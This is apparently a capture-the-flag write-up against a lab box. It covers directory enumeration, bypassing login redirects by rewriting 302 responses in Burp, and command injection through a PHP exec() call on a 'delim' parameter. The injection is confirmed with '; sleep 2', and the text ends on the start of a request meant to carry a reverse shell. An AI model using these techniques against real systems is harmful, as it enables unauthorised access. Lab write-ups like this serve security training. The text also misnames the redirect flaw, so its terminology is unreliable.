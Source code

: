 ```bash
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/status.php           (Status: 302) [Size: 2966] [--> login.php]              
Progress: 213832 / 478404 (44.70%)                        
```
if we take one of this resquests and send it to burp, we can see that in the 302 response body the site is discoling the code page before redirecting us.  
This type of vulnerability is called Execute After Read (EAR), the same has been discovered in a previous assessment in [Bank](Bank.md).  
Now we can set up a 'Match and Replace' rule in burpsuite to match `302 Found` and replace it with `200 Ok`  in the response header. 
Once we setup this rule we will be able to open restricted pages and create an administrator account that we can use to access the platform as a regular user.
Once we are logged in we can notice a 'download siteBackup' button.  
If we click on this button, we will be able to download the site code and see the following in `logs.php`
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```
Now we can try to exploit this part of code and get a reverse shell.

## Foothold
We can try to obtain a blind command ececution by adding a `; sleep 2` before the delim parameter and exploit the code snippet above.  
As we can observe we will see the response time increase after we add a sleep command:  
![](AttachmentS/Pasted%20image%2020220708160454.png)
Once we can see that we can inject code, we can add our reverse bash payload to gain a shell on this box:  
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=0nqfeq1ri9psi0kuig6ku8q939
Upgrade-Insecure-Requests: 1
```
